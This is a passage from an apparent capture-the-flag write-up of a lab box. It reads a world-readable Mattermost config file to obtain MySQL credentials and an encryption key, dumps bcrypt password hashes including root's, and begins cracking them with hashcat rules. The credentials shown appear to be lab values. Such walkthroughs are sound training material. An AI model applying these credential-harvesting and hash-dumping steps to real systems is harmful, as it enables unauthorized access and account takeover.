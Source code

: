 > ## Password Hashes gathered
>
> `$2a$08$yY4HDrD1SatcwG89gmnY8.1tE8JJYPZWQ.0NyzE6bayBzQxByA9/m`
> `$2a$08$WfQ7XIF27W3LkrePzhnV/e.auNW3cipNu4foex4H8kfrVdvTl.Rge`

Those retreived password hashes belong to users named `saint` and `hacking`. While the latter is probably not interesing and just somebody who created an account for themselves, `saint` could be interesting. Put it to the passwords to be cracked later.

## 7.2 Mattermost Password Dumping

Mattermost's configuration file is found easily in `/opt/mattermost/config/config.json`, which is world-readable:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
[...]
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost[...]",
"AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez"
```

A username, password, database and encryption key is exposed here. Take note of all that. The encryption key might be useful later. Let's dump that database too, using the same techniques as before (full dump [here](db_dump_mattermost.sql)).

> ## Credentials gathered
>
> MySQL: `mmuser:Crack_The_MM_Admin_PW`
>
> Database: `mattermost`

```sql
-- Specific command to get the root account only for readability
$ MariaDB [mattermost]> select Username, Password from Users where Username = "root";
+----------+--------------------------------------------------------------+
| Username | Password                                                     |
+----------+--------------------------------------------------------------+
| root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+----------+--------------------------------------------------------------+
10 rows in set (0.001 sec)
```

> ## Password Hash gathered
>
> `root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`

The earlier hint saying that password re-use is a problem suggests, that this one might be the actual `root` password for the system.
Let's start with this one when cracking.

# 8. Cracking Passwords and owning `root`

Let's fire up `hashcat`. Had to look up a couple things, as I haven't used that thing in a while. The Mattermost chat had another hint suggesting to use `hashcat` rules to combine the already [known phrase](password_cracking/phrase.txt) with **"all variations of common words or phrases"**.
